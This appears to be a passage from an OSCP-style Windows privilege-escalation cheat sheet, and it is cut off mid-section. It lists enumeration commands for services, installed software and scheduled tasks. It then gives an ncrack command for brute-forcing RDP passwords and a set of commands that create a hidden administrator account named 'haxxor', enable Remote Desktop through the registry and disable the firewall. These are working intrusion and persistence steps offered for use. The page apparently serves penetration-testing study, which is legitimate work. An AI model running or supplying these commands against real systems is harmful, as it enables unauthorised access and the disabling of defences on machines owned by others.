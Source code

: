 ### Programs running as root/system



### Installed software

```
# Metasploit
ps

tasklist /SVC
net start
reg query HKEY_LOCAL_MACHINE\SOFTWARE
DRIVERQUERY

Look in:
C:\Program files
C:\Program files (x86)
Home directory of the user
```


### Scheduled tasks

```
schtasks /query /fo LIST /v

Check this file:
c:\WINDOWS\SchedLgU.Txt
```

### Weak passwords

Remote desktop

```
ncrack -vv --user george -P /root/oscp/passwords.txt rdp://INSERT_IP_ADDRESS
```

### Useful commands


**Add user and enable RDP**

```
net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Turn firewall off
netsh firewall set opmode disable

Or like this
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Failed to connect, CredSSP required by server.""

Add this reg key:

```